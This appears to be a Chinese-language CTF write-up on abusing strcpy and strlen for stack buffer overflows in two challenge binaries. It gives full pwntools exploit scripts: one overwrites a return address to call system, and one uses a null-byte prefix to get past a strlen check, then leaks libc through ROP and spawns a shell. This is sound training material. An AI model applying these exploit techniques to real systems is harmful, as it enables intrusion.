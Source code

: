 ## strcpy,srtcmp,strlen函数漏洞利用

### strcpy

1. strcpy函数用于将字符串复制到另一个指针指向的空间中，遇到空字符 **b'x\00'**时停止，：

   ![image-20240531103615735](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311037550.png)

2. 所以可以利用 **strcpy不检查缓冲区** 的漏洞（构造的字符串要以\0结尾），进行缓冲区溢出攻击:

   #### 例子：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_ne_5)

   1. main函数中提供了4个函数供使用：

      ![image-20240531104018597](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407051937648.png)

   2. 其中addlog函数进行输入，输入的长度位128个字符，调试观察他的栈上返回值（0x80488ec）在变量的上方，无法进行溢出，因此该函数只能作为输入：

      ![image-20240531104402495](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311044581.png)

      ![image-20240531104108026](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311041059.png)

   3. 后买你getflag函数中存在一个strcpy函数漏洞，可能可以进行栈溢出，动态调试观察其栈上的变化，可见只要 **字符串长度超过0x4c** 即可覆盖掉 **getflag函数的返回值** ，在出去时即可挟持函数的控制流：

      ![image-20240531105005891](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311050968.png)

      ![image-20240531104533809](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311045846.png)

   4. 利用addlog函数输入构造的payload，长度超过0x4c即可，先只需要system函数地址，和'bin/sh/'字符串的地址即可，system函数程序自带，查询一下字符串：

      ![image-20240531105324125](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311053168.png)

   5. EXP：

      ``````python
      from pwn import *
      from LibcSearcher import *
      
      context(os='linux', arch='amd64', log_level='debug')
      
      p=remote("node5.buuoj.cn",28321)
      elf=ELF('./ciscn_2019_ne_5')
      
      p.recvuntil(b'Please input admin password:')
      payload = b'administrator'
      p.sendline(payload)
      p.recvuntil(b':')
      p.sendline(b'1')
      p.recv()
      
      #获取system地址
      sys_addr=elf.sym['system']
      sh_addr = 0x080482ea
      print(hex(sys_addr))
      
      #填充32位b'aaaa'，作为system的返回值（不需要使用到，所以随便填）
      payload = b'a'*(0x4c)+p32(sys_addr)+b'aaaa'+p32(sh_addr)+b'\x00'
      p.sendline(payload)
      p.recvuntil(b':')
      p.sendline(b'4')
      p.interactive()
      
      ``````

   
   
   
   ### strlen
   
   题目：[[LitCTF 2023\]狠狠的溢出涅~ | NSSCTF](https://www.nssctf.cn/problem/3877)
   
   1. ida查看，题目给了一个栈溢出漏洞，虽然给了0x200的长度，但是后面用户strlen检查了输入的长度不能超过0x50，溢出长度明显不够。
   
   2. 但是可以利用strlen函数判断字符串时以 **b'\x00'** 结尾，可以用b'\x00'绕过strlen的判断，EXP：
   
      ```python
      from pwn import *
      from LibcSearcher import *
      # 设置系统架构, 打印调试信息
      # arch 可选 : i386 / amd64 / arm / mips
      context(os='linux', arch='amd64', log_level='debug')
      p = remote("node4.anna.nssctf.cn",28314)
      # p = process("./pwn4")
      elf = ELF('./pwn4')
      #获取got、plt地址
      got = elf.got['puts']
      plt = elf.plt['puts']
      print(hex(got),hex(plt))
      
      #获取传参地址
      pop_rdi_ret = 0x00000000004007d3
      main_addr = 0x00000000004006B0
      ret = 0x0000000000400556
      
      p.recvuntil(b'Leave your message:\n')
      #构造payload，获得puts函数的地址
      payload = b'\x00'*(0x60+8)+p64(pop_rdi_ret)+p64(got)+p64(plt)+p64(main_addr)
      p.sendline(payload)
      addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
      print(hex(addr))
      
      # libc = LibcSearcher('puts',addr)
      # libc_base = addr - libc.dump('puts')
      # sys_addr = libc_base + libc.dump('system')
      # str_bin = libc_base + libc.dump('str_bin_sh')
      # print(hex(libc_base),hex(sys_addr),hex(str_bin))
      
      #查libc库的偏移
      libc_base = addr - 0x84420
      str_bin = libc_base + 		0x1b45bd
      sys_addr = libc_base + 		0x52290
      print(hex(libc_base),hex(sys_addr),hex(str_bin))
      
      #第二次利用栈溢出
      payload = b'\x00'*(0x60+8)+p64(ret)+p64(pop_rdi_ret)+p64(str_bin)+p64(sys_addr)
      p.sendline(payload)
      p.sendline(b'cat flag')
      # 与远程交互
      p.interactive()
      
      ```
   
      
   
   

